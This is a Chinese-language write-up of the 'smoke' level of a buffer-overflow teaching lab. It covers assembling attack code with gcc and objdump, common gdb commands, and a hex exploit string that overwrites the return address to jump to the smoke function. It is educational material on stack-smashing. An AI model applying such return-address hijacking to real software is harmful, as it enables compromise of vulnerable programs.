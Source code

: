 生成字节代码操作

编写一个汇编文件：

vim attack.s

汇编和反汇编此文件：

gcc -c attack.s

objdump -d attack.o > attack.d

由此推出这段代码的字节序列。

涉及的gdb命令

(gdb) r run的简写，运行被调试的程序。若有断点，则程序暂停在第一个可用断点处。

(gdb) c continue的简写，继续执行被调试程序，直至下一个断点或程序结束。

(gdb) print <指定变量> 显示指定变量的值。

(gdb) break *<代码地址> 设置断点。

(gdb) x/<n/f/u> <addr> examine的简写，查看内存地址中的值。

————————————————

版权声明：CSDN博主「_Silvia」的原创文章，原文链接：https://blog.csdn.net/qq_36894564/article/details/72863319



## buflap

### smoke

只需要算出偏移劫持返回地址修改为smoke就可以了

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh8c2ep5iuj30yn0u0dvx.jpg)

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh8c2xgb8yj31n20f0n01.jpg)

exp:

```
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
18 8c 04 08
```
